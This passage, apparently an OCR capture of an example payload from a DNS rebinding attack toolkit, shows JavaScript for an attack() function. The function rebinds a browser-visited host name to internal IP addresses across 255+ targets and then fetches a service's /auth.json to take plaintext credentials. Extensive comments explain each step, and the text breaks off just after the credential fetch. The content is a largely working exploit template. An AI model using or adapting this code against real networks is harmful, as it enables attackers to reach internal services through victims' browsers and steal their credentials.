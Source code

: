 ```html

    // launches the attack and returns a promise that is resolved if the target
    // service is found and correctly exploited, or more likely, rejected because
    // this host doesn't exist, the target service isn't running, or something
    // went wrong with the exploit. Remember that this attack is being launched
    // against 255+ IP addresses, so most of them won't succeed.
    async function attack() {

        // DNSRebindNode has some default fetch options that specify things
        // like no caching, etc... You can re-use them for convenience, or
        // ignore them and create your own options object for each fetch request.
        // Here are their default values:
        // {
        //     method: "GET",
        //     headers: {
        //         // this doesn't work in all browsers. For instance,
        //         // Firefox doesn't let you do this.
        //         "Origin": "", //unset the origin header
        //         "Pragma": "no-cache",
        //         "Cache-Control": "no-cache"
        //     },
        //     cache: "no-cache"
        // }
        const getOptions = DNSRebindNode.fetchOptions()

        try {
            // In this example, we'll pretend we are attacking some service with
            // an /auth.json file with username/password sitting in plaintext.
            // Before we swipe those creds, we need to first peform the rebind
            // attack. Most likely, our webserver will cache the DNS results
            // for this page's host. DNSRebindNode.rebind(...) recursively
            // re-attempts to rebind the host with a new, target IP address.
            // This can take over a minute, and if it is unsuccessful the
            // primise is rejected.
            const opts = {
                // these options get passed to the DNS rebind fetch request
                fetchOptions: getOptions,
                // by default, DNSRebindNode.rebind() is considered successful
                // if it receives a 200 OK response from the target service.
                // However, you can define any kind of "rebind success" scenario
                // yourself with the successPredicate(...) function. This
                // function receives a fetch result as a parameter and the return
                // value determines if the rebind was successful (i.e. you are
                // communicating with the target server). Here we check to see
                // if the fetchResult was sent by our example vulnerable server. 
                successPredicate: (fetchResult) => {
                    return fetchResult.headers.get('Server') == 'Example Vulnerable Server v1.0'
                }
            }

            await DNSRebindNode.rebind(`http://${location.host}/auth.json`, opts)
        } catch (err) {
            // whoops, the rebind failed. Either the browser's DNS cache was
            // never cleared, or more likely, this service isn't running on the
            // target host. Oh well... Bubble up the rejection and have our
            // attack()'s rejection handler deal w/ it.
            return Promise.reject(err)
        }

        try {
            // alrighty, now that we've rebinded the host name and are
            // communicating with the target service, let's grab the credentials
            const creds = await fetch(`http://${location.host}/auth.json`)
```
